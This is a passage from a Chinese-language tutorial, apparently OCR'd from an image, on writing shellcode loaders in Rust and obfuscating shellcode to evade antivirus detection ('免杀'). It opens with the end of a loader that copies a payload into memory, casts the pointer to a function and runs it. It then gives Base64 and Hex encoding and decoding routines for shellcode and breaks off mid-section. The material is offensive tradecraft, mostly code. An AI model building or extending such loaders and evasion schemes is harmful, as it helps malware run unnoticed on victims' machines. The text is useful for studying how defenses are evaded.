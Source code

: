 ```bash
        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());
            let exec = transmute::<*mut c_void, fn()>(ptr);
            exec();
        }
    }
}
```

## Shellcode 混淆方式

上面介绍了在 Rust 中为 shellcode 申请内存空间和执行 shellcode 的几种常见的方式，接下来会介绍几种常见的编码和加密混淆方式在 Rust 中的实现。在实际的 shellcode 免杀的时候经常需要结合几种混淆方式，或者是自己设计加密混淆方式。

### Base64 编码

在 Rust 中实现 base64 编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

```bash
[dependencies]
base64 = "0.20.0"
```

通过下面的代码即可将传入的切片类型的 shellcode 进行 base64 编码并返回一段字符串。

```bash
fn b64_enc(shellcode: &[u8]) -> String {
    base64::encode(shellcode)
}
```

通过以下代码即可将得到的字符串解码，并返回 Vec 数组类型的 shellcode。

```bash
fn b64_dec(shellcode:String) -> Vec<u8> {
    base64::decode(shellcode).expect("Error")
}
```

### Hex 编码

在 Rust 中实现 Hex 编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

```bash
[dependencies]
hex = "0.4.3"
```

通过下面的代码即可将传入的切片类型的 shellcode 进行 Hex 编码并返回一段字符串。

```bash
fn hex_enc(shellcode: &[u8]) -> String {
    hex::encode(shellcode)
}
```

通过以下代码即可将得到的字符串解码，并返回 Vec 数组类型的 shellcode。
